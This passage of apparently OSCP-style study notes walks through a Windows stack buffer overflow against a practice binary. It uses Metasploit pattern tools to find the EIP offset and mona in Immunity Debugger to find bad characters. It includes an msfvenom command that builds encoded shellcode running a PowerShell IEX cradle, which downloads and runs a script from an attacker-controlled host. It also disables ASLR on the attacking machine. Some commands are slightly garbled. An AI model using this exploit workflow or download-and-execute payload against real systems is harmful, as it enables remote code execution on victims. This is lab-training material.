 {% tab title="Offset EIP" %}
{% code overflow="wrap" %}
```bash
# Now we generate a payload 400 bytes longer than when it crashed before:
msf-pattern_create -l $CRASH_VALUE+400
# We put in the payload variable and execute exploit.py. Then we check EIP:
msf-pattern_offset -l -l $CRASH_VALUE+400 -q $EIP

# Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. 

# Set the retn variable to "BBBB", restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).
```
{% endcode %}
{% endtab %}

{% tab title="Badchars" %}
{% code overflow="wrap" %}
```bash
# We config dir with mona first (set all rights to that folder just in case)
!mona config -set workingfolder c:\bof\%p
# Use this as general approach in case there is no space for normal reverse_tcp_shell, always exclude at least these badchars (at least null byte for sure) + the ones found manually
└─$ msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.Webclient).downloadString('http://$IP:8000/Inv-Pow.ps1')" LHOST=192.168.0.0 LPORT=80 EXITFUNC=thread -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f c --smallest

# After crashing the program, set the working directory
!mona config -set working folder c:\mona\%p

# Generate a bytearray using mona, and exclude the null byte (\x00) by default.
!mona bytearray -cpb "\x00"

# IF WORKING DIRECTORY FAILS, USE THE DEFAULT FOR !mona compare -f $PATH 
C:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin

# KEEP retn="BBBB", update your exploit.py script and set the payload variable to the string of bad chars the script generates.
payload=("ALL BADCHARS HERE")     # DON'T FORGET ()

# Restart the app in Immunity and run the modified exploit.py script again. 
# Make a note of the address to which the ESP register points.
!mona compare -f $.bin_file_path -a $ESP # we note the badchar, ESP w/o 0x
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
# A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it.

# Note badchars and generate a new bytearray in mona, specifying these new badchars along with \x00. For example:
!mona bytearray -cpb "\x00\x07" # we delete all badchars (00 07 in this case) 
# Then update the payload variable and remove new badchars.

# DELETE BADCHARS ONE BY ONE FROM BYTEARRAY. NOT ALL MIGHT BE BADCHARS! SOMETIMES BADCHARS AFFECT THE NEXT BYTE OR THE REST OF THE STRING

# NOTE: ESP ADDRESS MAY CHANGE EVERY TIME WE RUN THE APP
# If we check twice JMP ESP address and see it is constantly changing, we have to disable ASLR on our Kali
# First remember the value it had to revert it later
cat /proc/sys/kernel/randomize_va_space
# Now we disable random relocation on Kali
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
# Then we can repeat the method to find a return address
We find 0x5e9a515e so our retn
```